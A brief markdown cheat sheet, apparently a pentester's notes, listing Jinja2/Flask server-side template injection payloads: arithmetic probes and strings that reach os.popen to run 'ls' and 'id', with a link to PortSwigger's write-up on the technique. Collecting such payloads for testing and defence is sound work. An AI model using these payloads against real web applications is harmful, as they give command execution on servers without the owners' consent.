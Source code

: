 

´´´
{{7*7}}
{{333*2}}
{{url_for.__globals__.os.popen('ls').read()}}
´´´

´´´´
os.popen('id').read()
´´´





#Refs:

- https://portswigger.net/blog/server-side-template-injection
